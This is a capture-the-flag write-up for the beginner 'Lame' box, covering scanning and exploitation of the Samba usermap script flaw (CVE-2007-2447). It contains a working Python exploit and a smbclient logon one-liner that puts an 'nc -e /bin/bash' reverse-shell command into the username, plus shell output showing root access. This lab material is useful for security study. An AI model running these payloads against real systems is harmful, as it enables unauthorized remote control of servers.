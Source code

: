 ![](pics/logo.png)
# Beginner Track - Lame 

## Enumeration

```
rustscan 10.129.72.52 -- -sC -sV -o port_scan

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

So we have an open FTP port (21) with Anonymous login allowed, an SSH port (22), open samba ports (139,445) and a distrubuted c/c++ compiler server on port 3632.

## Examine Port 21 - Anonymous allowed

Connecting to the FTP server as client Anonymous works, however, the directory is completely empty.

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
```

## Examine Port 139/445

Let's start by enumerating the smb directories.
```
└──╼ $ smbmap -H 10.129.72.52   
[+] IP: 10.129.72.52:445        Name: 10.129.72.52                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))-
        WORKGROUP            LAME
```

Apparently we have full read and write access to the `tmp` share. 

```
└──╼ $ smbclient //10.129.72.52/tmp
Enter WORKGROUP\ctf's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan  6 13:57:48 2021
  ..                                 DR        0  Sat Oct 31 08:33:58 2020
  .ICE-unix                          DH        0  Wed Jan  6 13:45:02 2021
  5571.jsvc_up                        R        0  Wed Jan  6 13:46:17 2021
  vmware-root                        DR        0  Wed Jan  6 13:45:29 2021
  .X11-unix                          DH        0  Wed Jan  6 13:45:30 2021
  .X0-lock                           HR       11  Wed Jan  6 13:45:30 2021
  vgauthsvclog.txt.0                  R     1600  Wed Jan  6 13:45:00 2021

                7282168 blocks of size 1024. 5385876 blocks available
```

After investigating all the files, and finding nothing, I looked up if there are any known vulnerabilities for this specific Samba version (3.0.20).

```
searchsploit samba 3.0.20
```

![](pics/searchsploit.png)

## Exploitation

The one we need is the "Username" map script. There are two ways you can exploit this vulnerability. Either with metasploit, which runs the exploit without telling you what actually happens in the background OR do it manually and you learn every single step. But that's totally up to you. I decided to try the manual approach.

Explanation of the vulnerability:

CVE-2007-2447 - Samba usermap script
Samba 3.0.0 - 3.0.25rc3 are subject for Remote Command Injection Vulnerability (CVE-2007-2447), allows remote attackers to execute arbitrary commands by specifying a username containing shell meta characters.

The root cause is passing unfiltered user input provided via MS-RPC calls to /bin/sh when invoking non-default "username map script" configuration option in smb.conf, so no authentication is needed to exploit this vulnerability.

To exploit this vulnerability, all you need to do is to change the username for authentication to your payload in combination with `nohup`. I wrote a short python script for that purpose.

```python
#!/usr/bin/python

import sys
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport, lhost, lport):
        payload = 'nc -e /bin/bash 10.10.14.50 4444'
        username = "/=`nohup " + payload + "`"
        conn = SMBConnection(username, "", "", "")
        err = conn.connect(rhost, rport)
        if not err:
            print("[+] Done !")

if __name__ == '__main__':
    print("[*] CVE-2007-2447 - Samba usermap script")
    if len(sys.argv) != 5:
        print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
    else:
        print("[+] Connecting !")
        try:
            rhost = sys.argv[1]
            rport = int(sys.argv[2])
            lhost = sys.argv[3]
            lport = int(sys.argv[4])
            exploit(rhost, rport, lhost, lport)
        except ValueError:
            print("ERROR: Port must be an integer")
            exit(0)
```

Here we connect with the user set to our reverse shell payload. 

```
└──╼ $ python3 exploit.py 10.129.72.52 139 10.10.14.50 4444
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Done
```

This results in:

```
└──╼ $ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.72.52] 43267
id
uid=0(root) gid=0(root)
```

An alternative would be to use smbclient to connect to the tmp share.

Afterwards type following:

```
smb: \> logon "/=`nohup nc -e /bin/bash 10.10.14.50 4444`"
```
This is the manual approach without a script.

## Post Exploitation

Now we can obtain the userflag (/home/makis/user.txt) and the rootflag (/root/root.txt)
